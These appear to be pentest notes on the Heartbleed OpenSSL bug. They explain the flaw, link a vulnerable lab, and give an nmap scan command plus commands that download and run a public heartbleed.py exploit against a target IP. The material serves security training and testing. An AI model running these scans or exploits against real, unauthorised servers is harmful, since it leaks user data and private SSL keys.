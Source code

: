 #### 2.1. About

- `https://xkcd.com/1354`
- `http://heartbleed.com`

Sever returns a memory dump based on the return length specified by the HTTP client.
- In: hey sever, reply POTATO (500 letters) if you're still there
- Out: will reply 500 letters - POTATO

Affects only the heart-beat module. Attack can be used to exfiltrate sensitive user data as well as the public/private SSL keys.

#### 2.2. Playground

```
https://github.com/hmlio/vaas-cve-2014-0160
```


#### 2.3. Vulnerability scanning

```
# nmap $ip -p 443 --script ssl-heartbleed -Pn -n -T5 | grep -oE VULNERABLE | sort -u
VULNERABLE
```


#### 2.4. Exploitation

```
# wget https://raw.githubusercontent.com/jivoi/pentest/master/tools/heartbleed.py
# python heartbleed.py -n20 $ip
```
